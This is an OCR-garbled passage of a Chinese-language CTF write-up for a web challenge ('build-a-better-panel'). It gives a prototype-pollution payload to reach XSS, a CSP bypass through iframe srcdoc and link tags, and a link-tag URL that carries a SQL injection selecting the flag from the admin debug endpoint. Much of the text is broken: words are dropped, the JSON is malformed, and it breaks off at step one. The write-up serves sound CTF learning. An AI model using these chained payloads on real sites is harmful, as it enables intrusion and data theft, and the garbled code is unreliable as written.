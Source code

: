 来实现xss，在我们这个题目里，对应的就是构造

target. constructor.prototype. = 'alert(1)'

于是构造

{"widgetName": "constructor","widgetData": "{"prototype":{"":"alert"}}"}

传给/panel/add接口，然后再去访问/panel，在控制台测试一下

![a5bba09f6f115c96d25a35d4d0ef7851.png](img/e7a878a9c81b244875243e2fd94da314.png)

可以看到确实成功实现了Object.prototype. = 'alert(1)'，但是并没有弹窗，因为还存在一个CSP的限制

Content-Security-Policy: default-src 'none'; -src 'self'http: //cdn.embedly.com/; style-src 'self' http://cdn.embedly.com/; connect-src 'self' https://www.reddit.com/comments/;

Bypass CSP用到的是iframe的srcdoc属性，

srcdoc 属性是一段HTML代码，这些代码会被渲染到 iframe 中。如果浏览器不支持 srcdoc 属性，则会渲染 src 属性表示的内容。

但是还有一个问题，及时我们设置了iframe的srcdoc属性为java，仍然无法执行，这是因为-src:self限制了我们只能执行同源脚本，

但是我们可以利用link标签绕过,网址的payload跟上一个一样，因为注入点没改。

< linkrel= stylesheethref= "https://build-a-better-panel.dicec.tf/admin/debug/add_widget?panelid=01603e38-9326-4a12-b499-9c1b78d653a6'%2C%20(select%20flag%20from%20flag)%2C%20'1')%3B--&widgetname=1&widgetdata=1"> link>

所以最终步骤是

1.构造payload
